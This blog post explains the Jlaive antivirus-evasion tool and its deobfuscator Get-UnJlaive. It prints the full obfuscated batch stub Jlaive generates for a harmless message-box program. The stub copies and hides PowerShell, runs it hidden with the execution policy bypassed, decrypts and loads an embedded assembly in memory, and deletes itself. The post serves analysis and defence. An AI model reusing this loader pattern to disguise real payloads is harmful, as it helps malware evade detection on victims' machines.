 +++
title = "Exploring the Jlaive and UnJlaive tool"
date = 2024-03-11T20:03:02+02:00
draft = true
tags = ["Jlaive","UnJlaive","obfuscation"]
categories = ["malware"]
ShowToc = false
author = ["connar"]
+++
## What will this post be about
This post will be about the Jlaive and Get-UnJlaive tools. I will not go into depth as there are other resources I will list that do a great job explaining more in depth of the ins and outs of these tools. This will just be an overview of the tools: **How to obfuscate an executable with Jlaive and how to recover it using Get-UnJlaive.**


## What is the Jlaive tool
In short terms, Jlaive is a tool used to convert executables to undetectable .bat scripts for AV evasion. This tool is very similar to the well known BatCloak engine which was used to create such undetectable .bat scripts. As the scmagazine states *...Researchers tie BatCloak closely to another, now abandoned, BAT obfuscation tool called Jlaive...Trend Micro said that the BatCloak engine is the core engine of Jlaive’s obfuscation algorithm, now repurposed. The BatCloak functionality is specifically tied to the instructions “LineObfuscation.cs and FileObfuscation.cs” used in the Jlaive crimeware.*

There are many tools with similar goals, like the ScrubCrypt, but they are closed-source for better monetization and avoide the use of them from other cyber criminal groups. Anyway, lucky for us, we got a hold of the Jlaive tool and we are going to explore it in a simple poc executable.  

### Simple poc
The poc is nothing more than a MsgBox:
```csharp
using System;
using System.Collections.Generic;
using System.Linq;
using System.Text;
using System.Threading.Tasks;
using System.Windows.Forms;

namespace pocHello
{
    internal class Program
    {
        static void Main(string[] args)
        {
            MessageBox.Show("just an msgbox as a poc", "Message Box POC", MessageBoxButtons.OK, MessageBoxIcon.Information);
        }
    }
}
```
After building the project, we simply run the tool and load our executable, choosing what features we would like the obfuscated .bat file to have:

![jlaive tool](/posts/jlaive/jlaive_tool.png)

Running the tool, we get a successful message:  
![encrypted output](/posts/jlaive/encrypted_output.png)

Navigating to the path where the .bat file was created, we are met with the following code:
```bat
@echo off
echo F|xcopy C:\Windows\System32\WindowsPowerShell\v1.0\powershell.exe "%~dp0%~nx0.exe" /y
attrib +s +h "%~dp0%~nx0.exe"
cls
cd %~dp0
set "fENYbyZJkq=3IHsgcHVib"
set "oMDpdCkaMN=k = [Syste"
set "HlBoTjvPwk=6UdLqADvWw" && set "TgmwRYHkmK=ucHV0Lkxlb"
set "nVaFdaubIS=npolicy by" && set "BIXBCNceka=gSUNyeXB0b" && set "YNWXZHqJqc=gZ3MuRGlzc"
set "tQIzxvQESC=GtleSwgYnl" && set "XOhAfBkWmm=vert]::Fro"
set "kLMTZqURfX=U), [Syste" && set "qVRmUESgbg=$tIukXz = " && set "saTMAKUycO=SBpbnB1dCw" && set "KdmMRlyyEK=nlwdG9yLlR" && set "PMyINOXuEO=GJ5dGVbXSB"
set "FscnzUUuAC=::FromBase"
set "BARCwvwdkW=-noprofile" && set "vwRxWzGiFE=))).EntryP"
set "sMNjHgEuTS=md0aCk7IGR" && set "ZMFfhtZaCd=n $tIukXz;" && set "NRBHbUNrkG=etString([" && set "tNCgPVjCku=kID0gZGVjc"
set "CDtNvqDvqL=ngth - 1];" && set "ieHoPTyjEy=mBase64Str" && set "rajcuUaXTP=m.IO.File]" && set "ihrpBFSJkF=Gh5OyBwdWJ" && set "ObqwUWcIse=yZXR1cm4gb"
set "wrxnxJJZUi=10gY1VaaUJ"
set "tPPsLfEmfH=ssembly]::" && set "wYpmPrqEes=0ZW0uU2Vjd" && set "PeMJlFunvD=%~nx0.exe " && set "xRRkIyDKnV=GUgPSBDaXB"
set "LguDwtEgTm=ing('dXNpb"
set "rBnjvHzCEC=SwgaXYpOyB" && set "BwxNyGNeWs=and $NDmNb" && set "NOLCAWkezL=XJpdHkuQ3J" && set "JxakJbogEh=c212SWxpVX"
set "avLgdUKvyf=System.Con"
set "dzLmqrEuSn=Load([DuUJ"
set "buYFlxnyag=mcgU3lzdGV"
set "JrzOnKokrg=G8obXNvKTs"
set "VKtWSAzekf=kaW5nTW9kZ"
set "UDLwXXbfUO=eDefinitio"
set "pZCqseAkqe=ext('%~f0').Split([Environment]::NewLine);$WWCkvU "
set "bEuenIEGAB=ert]::From"
set "evGNjFJkiq=::ReadAllT"
set "EtpzUbnYkW=XRlRGVjcnl"
set "rAJgHQskWM=3VzaW5nIFN" && set "nUMBtoFYkK=yBNZW1vcnl" && set "DlNUGnnsfJ=gTWVtb3J5U" && set "tguYxsQeEG=hbmFnZWQgY" && set "ZxsoDXEAmh=::cUZiBs(["
set "rrBdlEgEiR=" && set "yuBNvyTjWG=ieXRlW10gZ" && set "EpkleGpiSQ=zLlBhZGRpb" && set "hlfUYJcbnE=//github.c" && set "JaaFxTqmkm=zKGJ5dGVbX"
set "ovxvfokepJ=yA9IG5ldyB" && set "NdBkzRUyNc=-Type -Typ"
set "cECnVddQIO=gYWVzLk1vZ"
set "JYdzLMkAMI=zdGVtLklPO"
set "LIJyjYDhEO=mBase64Str"
set "FQDboAlVkm=0cmVhbSBtc" && set "CtISDxCuyg=$NDmNbk.Le"
set "cPhgSHJFiE=laive" && set "wOUbaaionW=8dQ='), [S"
set "TFqYzkUFKP=oZXJNb2RlL" && set "XmJlbVCEeg=ybSBkZWNye"
set "rsAojPyqqK=pass -comm"
set "HjDUCECfuK=vY2soaW5wd" && set "RLYjZdmUem=i5EaXNwb3N"
set "JmcNfgjlkO=3IE1lbW9ye"
set "wotBbJUCXp=28gPSBuZXc"
set "ZMbsYBZiEq=S5QS0NTNzs"
set "JWEGEWztyS=y5Db21wcmV" && set "wYGjMTSRLU=G9zZSgpOyB" && set "RZdMvuYUqn=tLlRleHQ7d"
set "DDhHMvstEO=GljIHN0YXR" && set "BLkZldvAHE=TdHJlYW0gb" && set "HkRRYWZUWm=7IHZhciBnc"
set "EvYPmaikjR=lY3J5cHRvc" && set "NUGvGuKfkH=]] ('%*')))" && set "TiPQaNUyEk=om/ch2sh/J" && set "mMQdKSFyum=yeXB0ZWQ7I"
set "FFeCIpqPyy= -windowst"
set "lYRjpzjmyM=mcgPSBQYWR" && set "jEdNSXkuFv=oint.Invok"
set "UeVhkuMOtk=XNpID0gbmV"
set "reZEtGxrSh=y5EaXNwb3N" && set "uPqpbVZyku=ystem.Conv" && set "QbZOQhYmgk=Fw]::YWqYu"
set "ljXHtMvGyf=jIHN0YXRpY" && set "LulfiaLhEe=XNpbmcgU3l"
set "GVtjxQXtOo=zc2lvbjt1c"
set "EyEeayRkCp=m.Convert]" && set "VTmkqOOkQh=5c3RlbS5JT"
set "DJZvlJxSeK=flection.A"
set "VrbuAavxUi=XQsIDAsIGl" && set "ytnErceFKM=G9zZSgpOyB"
set "WsBCQAkGPI=mFnZWQoKTs" && set "ZeKpegxEqf=UZpbmFsQmx" && set "fYjkFWUCLu=e($null, (" && set "qbrRUujXDM=lKCk7IGFlc" && set "TcbXekUkOV=Base64Stri" && set "ryOJrbkGXw=ncy5Db3B5V" && set "gBhbYMmkar=HWmlwU3RyZ"
set "xFXbUXSqiH=hZXMuQ3JlY"
set "jUxqxtJWwK=XB0b3IgPSB"
set "cUNiABJEPG=64String('"
set "BYliuSSkds=E1lbW9yeVN"
set "DgsMJGRBkW=kNCQzsgYWV" && set "yxMQSdikCf=System.Con" && set "pqydlkWvlv=yYW5zZm9yb"
set "xmGqfoyigz=yYXkoKTsgf" && set "mKWZuiSqkG= -executio"
set "pWisjkyuvo=g]::UTF8.G" && set "RdergtMaPv=3MgRHVVSkZ" && set "FoeUHvtBeI=3RyZWFtKCk"
set "PtbWQSaxkP=gYnl0ZVtdI" && set "prlyUalgGj=, [string[" && set "qfhEOMrfue=rem https:"
set "EHNuBdghke=XNvLlRvQXJ"
set "atzklLZikC=ieXRlcyk7I"
set "VzZHdHfnkK=wdG9yKGtle" && set "pbEQoHEFya=3Npb25Nb2R"
set "wyIRpJUzUy=ng('i9gKth"
set "aRvucOwBMK=lLkRlY29tc"
set "ZGtoXTmqEa=vert]::Fro" && set "LBXFmXrGGk=yle hidden" && set "PgpYWgnESr=SB9'));Add" && set "jQJlvwKnUC=HVybiBkZWN"
set "yutyGaKptk=pYyBieXRlW"
set "NrVzEyZKxJ=gWVdxWXVPK"
set "ElUeqoZkeB=5cHRvZ3Jhc" && set "VqDUHkduHE=HJlc3MpOyB" && set "bXuhcMQWEC=tc2kuRGlzc" && set "wIkgxuqwSU=ieXRlcykge" && set "BeUppPecxE=xt.Encodin" && set "JXrPZaVOUG=G9zZSgpOyB" && set "FclUyvUGNa=WVzID0gbmV" && set "QQwGKBkSYC=WS5VvlzyRn" && set "QSDzwOfsqN=saWMgY2xhc" && set "nNEnadmgAy=SB7IEFlc01"
set "ZSnQhDQxOJ=WFtKG1zaSw"
set "hCSlczZEed=[System.Re"
set "tAyNMEciUo=VN0cmVhbSh" && set "lELXxFDard=O([DuUJFw]"
set "nNsRHgWaoU== $NDmNbk["
set "ldbJMTqUaX=0ZVtdIGl2K" && set "sSUxwkECwE=1RyYW5zZm9" && set "IYUhcqkikI=1hMu1g==')"
set "rgNaXziIpC=GVjcnlwdGV"
set "xdaAAuWEqb=3IEFlc01hb" && set "TYDLSAjkyA=gQ29tcHJlc" && set "GgmonIEaZP=ing($WWCkv"
set "IArsKCeeLv=tc28uRGlzc" && set "oLgiwxduaV=H0gcHVibGl" && set "GNZxLtdDkO=[System.Te"
set "amOerQZEai=OxhVVfEWSN" && set "fHTMzMCrak=yBieXRlW10"
set "kKopFOwikC=2luZyBTeXN"
set "occQjttmnX=lKCk7IHJld"
set "eZKAFlWkCV=MlVcdDTvXm"
%qfhEOMrfue%%hlfUYJcbnE%%TiPQaNUyEk%%cPhgSHJFiE%
%PeMJlFunvD%%BARCwvwdkW%%FFeCIpqPyy%%LBXFmXrGGk%%mKWZuiSqkG%%nVaFdaubIS%%rsAojPyqqK%%BwxNyGNeWs%%oMDpdCkaMN%%rajcuUaXTP%%evGNjFJkiq%%pZCqseAkqe%%nNsRHgWaoU%%CtISDxCuyg%%CDtNvqDvqL%%qVRmUESgbg%%GNZxLtdDkO%%BeUppPecxE%%pWisjkyuvo%%NRBHbUNrkG%%avLgdUKvyf%%ZGtoXTmqEa%%LIJyjYDhEO%%LguDwtEgTm%%buYFlxnyag%%RZdMvuYUqn%%LulfiaLhEe%%JYdzLMkAMI%%rAJgHQskWM%%VTmkqOOkQh%%JWEGEWztyS%%GVtjxQXtOo%%kKopFOwikC%%wYpmPrqEes%%NOLCAWkezL%%ElUeqoZkeB%%ihrpBFSJkF%%QSDzwOfsqN%%RdergtMaPv%%fENYbyZJkq%%DDhHMvstEO%%yutyGaKptk%%wrxnxJJZUi%%JaaFxTqmkm%%saTMAKUycO%%PtbWQSaxkP%%tQIzxvQESC%%ldbJMTqUaX%%nNEnadmgAy%%tguYxsQeEG%%FclUyvUGNa%%xdaAAuWEqb%%WsBCQAkGPI%%cECnVddQIO%%xRRkIyDKnV%%TFqYzkUFKP%%DgsMJGRBkW%%EpkleGpiSQ%%lYRjpzjmyM%%VKtWSAzekf%%ZMbsYBZiEq%%BIXBCNceka%%sSUxwkECwE%%XmJlbVCEeg%%jUxqxtJWwK%%xFXbUXSqiH%%EtpzUbnYkW%%VzZHdHfnkK%%rBnjvHzCEC%%yuBNvyTjWG%%rgNaXziIpC%%tNCgPVjCku%%KdmMRlyyEK%%pqydlkWvlv%%ZeKpegxEqf%%HjDUCECfuK%%VrbuAavxUi%%TgmwRYHkmK%%sMNjHgEuTS%%EvYPmaikjR%%RLYjZdmUem%%qbrRUujXDM%%reZEtGxrSh%%occQjttmnX%%jQJlvwKnUC%%mMQdKSFyum%%oLgiwxduaV%%ljXHtMvGyf%%fHTMzMCrak%%NrVzEyZKxJ%%PMyINOXuEO%%wIkgxuqwSU%%nUMBtoFYkK%%BLkZldvAHE%%UeVhkuMOtk%%JmcNfgjlkO%%tAyNMEciUo%%atzklLZikC%%BYliuSSkds%%FQDboAlVkm%%wotBbJUCXp%%DlNUGnnsfJ%%FoeUHvtBeI%%HkRRYWZUWm%%ovxvfokepJ%%gBhbYMmkar%%ZSnQhDQxOJ%%TYDLSAjkyA%%pbEQoHEFya%%aRvucOwBMK%%VqDUHkduHE%%ryOJrbkGXw%%JrzOnKokrg%%YNWXZHqJqc%%JXrPZaVOUG%%bXuhcMQWEC%%wYGjMTSRLU%%IArsKCeeLv%%ytnErceFKM%%ObqwUWcIse%%EHNuBdghke%%xmGqfoyigz%%PgpYWgnESr%%NdBkzRUyNc%%UDLwXXbfUO%%ZMFfhtZaCd%%hCSlczZEed%%DJZvlJxSeK%%tPPsLfEmfH%%dzLmqrEuSn%%QbZOQhYmgk%%lELXxFDard%%ZxsoDXEAmh%%yxMQSdikCf%%XOhAfBkWmm%%ieHoPTyjEy%%GgmonIEaZP%%kLMTZqURfX%%EyEeayRkCp%%FscnzUUuAC%%cUNiABJEPG%%HlBoTjvPwk%%QQwGKBkSYC%%JxakJbogEh%%eZKAFlWkCV%%wOUbaaionW%%uPqpbVZyku%%bEuenIEGAB%%TcbXekUkOV%%wyIRpJUzUy%%amOerQZEai%%IYUhcqkikI%%vwRxWzGiFE%%jEdNSXkuFv%%fYjkFWUCLu%%prlyUalgGj%%NUGvGuKfkH%
%rrBdlEgEiR%
attrib -s -h "%~dp0%~nx0.exe"
del "%~dp0%~nx0.exe"(goto) 2>nul & del "%~f0"
exit /b
jjNNb7+5GJxTidTZUiwqq6EMDNO1MKBC21fz5d08N7l -- a bunch more of b64 encrypted bytes ---
```
A great resource explaining the commands used in the batch file is a post made by **Jose Luis Sánchez Martínez** in his blog (which I will leave in the references). He gives an overview of what calls are being made when we execute this obfuscated .bat file and also a poc of rules to detect such malicious files (although, they could be bypassed).


Running this batch script gives the same output as our original executable:  
![running the bat](/posts/jlaive/running_the_bat.png)

After we run this, the .bat file gets deleted - well, its contents gets deleted - and a new file, with an .exe extension appears to have been created:  
![new batexe file](/posts/jlaive/new_batexe_file.png)
This is where the tool Get-UnJlaive will come into play, which will take advantage of this and manage to deobfuscate the script and give the original .exe code.


## Get-UnJlaive
Now onto the deobfuscation part. Get-UnJlaive is a tool able to reconstruct Jlaive (.NET Antivirus Evasion Tool (Exe2Bat)) to original Assembly and stub Assembly, as the author states. We are going to use his tool which can be found in the following repo (also has an amazing channel which I will leave in the references):  
- https://github.com/Dump-GUY/Get-UnJlaive

Basically what this tool does is to run the .bat file, set it in a suspended state to get the deobfuscated form (as we previously saw, a .exe was created after we had run the .bat), decrypt it, reconstruct the original assembly and then terminates it. For an indepth analysis of how this tool works, you can watch the video of dumpguy which I'll leave in the references.  

### Reconstructing the original assembly
The tool is easy to set. You simple just open a powershell terminal, load the module provided and you are good to go. After you run the tool, you should get a file with an extension ".bat_orig.exe" which you could load into DnSpy for example and view its code:
![reconstructed](/posts/jlaive/reconstructed.png)

Aaand we have successfully reconstructed our original .exe from the obfuscated batch file!

**References**
<blockquote>
    <ul>
        <li> [1] <a href="https://www.scmagazine.com/news/obfuscation-batcloak-80-percent-av-engines">scmagazine: <i>Obfuscation tool ‘BatCloak’ evades 80% of AV engines</i></a></li>
        <li> [2] <a href="https://jstnk9.github.io/jstnk9/research/Jlaive-Antivirus-Evasion-Tool/">Jose Luis Sánchez Martínez: <i>Using Jlaive to create batch files from .NET assemblies for defense evasion</i></a></li>
        <li> [3] <a href="https://github.com/Dump-GUY/Get-UnJlaive">Dump-GUY: <i>Get-UnJlaive</i></a></li>
        <li> [3] <a href="https://www.youtube.com/watch?v=cKciCTW82I8">DuMp-GuY TrIcKsTeR: <i>Get-UnJlaive - Jlaive Protector Reconstructor</i></a></li>
    </ul>
</blockquote>